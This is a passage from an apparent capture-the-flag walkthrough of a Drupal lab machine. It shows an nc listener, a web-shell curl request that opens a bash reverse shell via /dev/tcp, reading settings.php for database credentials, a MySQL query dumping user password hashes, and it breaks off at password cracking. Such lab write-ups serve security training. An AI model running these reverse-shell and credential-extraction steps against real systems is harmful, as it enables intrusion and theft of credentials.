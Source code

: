 Using the deployed web shell to establish a proper reverse shell:

```shellscript
# On attacker machine
nc -lnvp 4444

# Via web shell
curl 'http://192.168.1.12/shell.php' -d 'c=bash -i >& /dev/tcp/192.168.1.10/4444 0>&1'
```

## Post-Exploitation

### Flag Discovery

**Flag 1** found in web root:

```shellscript
cat /var/www/flag1.txt
```

### Database Credential Extraction

**Flag 2** discovered in Drupal configuration:

```shellscript
cat /var/www/sites/default/settings.php
```

**Database Credentials Found:**

- Database: `drupaldb`
- Username: `dbuser`
- Password: `R0ck3t`


### Database Enumeration

Connecting to MySQL database:

```shellscript
mysql -u dbuser -p
# Password: R0ck3t
```

**User Hash Extraction:**

```sql
use drupaldb;
select * from users;
```

**Retrieved Hashes:**

- admin: `$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR`
- Fred: `$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg`


### Password Cracking
